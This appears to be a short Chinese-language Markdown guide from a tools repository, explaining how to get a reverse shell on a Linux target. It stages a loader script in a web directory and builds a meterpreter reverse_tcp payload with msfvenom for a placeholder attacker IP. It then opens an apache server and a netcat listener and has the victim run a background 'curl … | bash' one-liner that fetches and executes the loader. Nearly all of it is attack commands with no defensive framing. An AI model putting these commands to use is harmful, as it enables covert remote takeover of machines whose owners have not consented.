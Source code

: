 ## Loader

下载脚本到 Web 目录

```shell
┌──(root㉿kali)-[~]
└─# wget https://raw.githubusercontent.com/jadensalas469466/tools/refs/heads/main/attack/loader.sh -O /var/www/html/upload/loader.sh
```

在云服务器上生成 Payload

```shell
┌──(root㉿kali)-[~]
└─# msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=[attack_ip] LPORT=[port] -f elf -o /var/www/html/upload/payload
```

开启 Web 服务并使用 Netcat 监听 `[port]` 端口

```shell
┌──(root㉿kali)-[~]
└─# systemctl start apache2.service && nc -l -p [port]
```

使目标下载 Loader 脚本，即可上线

```shell
root@debian:~# nohup curl -fsSL http://[attack_ip]/upload/loader|bash -sh > /dev/null 2>&1 &
```

---

References

- [Loader](https://github.com/jadensalas469466/tools/blob/main/attack/loader.sh)

